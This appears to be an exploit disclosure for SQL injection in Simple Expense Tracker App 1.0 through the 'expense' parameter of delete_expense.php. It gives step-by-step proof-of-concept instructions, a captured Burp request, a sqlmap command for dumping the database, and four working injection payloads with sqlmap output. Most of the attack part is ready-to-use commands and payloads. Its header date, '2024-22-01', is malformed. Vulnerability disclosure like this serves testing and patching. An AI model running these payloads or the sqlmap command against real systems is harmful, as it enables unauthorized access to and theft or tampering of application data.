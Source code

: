 # Simple Expense Tracker - SQL Injection-1
+ **Exploit Title:** Simple Expense Tracker - SQL Injection-1
+ **Date:** 2024-22-01
+ **Exploit Author:** Burak Sevben
+ **Vendor Homepage:** https://www.sourcecodester.com/php/16794/simple-expense-tracker-app-using-php-source-code.html
+ **Software Link:** https://www.sourcecodester.com/download-code?nid=16794&title=Expense+Tracker+App+Using+PHP+with+Source+Code
+ **Version:** 1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** Reported, waiting for CVE number.

## Description:
 Simple Expense Tracker App 1.0 allows SQL Injection via the 'expense' parameter in "http://localhost/simple-expense-tracker-app/endpoint/delete_expense.php?expense=1". Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: "http://localhost/simple-expense-tracker-app/"
+ Select any expense and press the delete-expense button
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:
```
GET /simple-expense-tracker-app/endpoint/delete_expense.php?expense=1 HTTP/1.1
Host: localhost
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
```

+ Use sqlmap to exploit. In sqlmap, use 'expense' parameter to dump the database.
```
sqlmap -r r.txt -p expense --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
Parameter: expense (GET)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: expense=1' RLIKE (SELECT (CASE WHEN (8149=8149) THEN 1 ELSE 0x28 END))-- YCuy

    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: expense=1' AND EXTRACTVALUE(1814,CONCAT(0x5c,0x71706a6b71,(SELECT (ELT(1814=1814,1))),0x7178766b71))-- OXWI

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: expense=1';SELECT SLEEP(5)#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: expense=1' AND (SELECT 4006 FROM (SELECT(SLEEP(5)))hjyB)-- NQYA
---
[18:46:49] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.58, PHP 8.2.12
back-end DBMS: MySQL >= 5.1 (MariaDB fork)
[18:46:49] [INFO] fetching current database
[18:46:49] [INFO] retrieved: 'expense_tracker_db'
current database: 'expense_tracker_db'
```
+ current database: `expense_tracker_db`

![Ekran görüntüsü 2024-01-30 025239](https://github.com/BurakSevben/CVEs/assets/117217689/c9f6f289-d414-4b75-a4fb-ee4c9176c9e6)



